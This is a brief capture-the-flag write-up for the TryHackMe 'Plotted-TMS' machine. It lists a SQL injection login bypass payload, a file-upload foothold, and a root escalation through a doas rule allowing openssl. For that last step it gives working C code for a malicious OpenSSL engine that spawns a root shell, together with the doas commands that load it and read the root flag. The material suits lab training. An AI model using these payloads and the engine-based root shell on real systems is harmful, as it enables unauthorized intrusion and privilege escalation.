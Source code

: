 # Plotted-TMS

Tryhackme easy machine

## Initial Foothold

1. Port 445 
2. Dirsearch "/management "and sql login auth bypass payload "admin' #" username param.

## user

1. File upload

## root

1. doas.conf permit nopass plot_admin as root cmd openssl

## Exploit

doas openssl enc -in /root/root.txt

or

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

simply create malicious c file complie it and run.

doas openssl req -engine ./lib.so

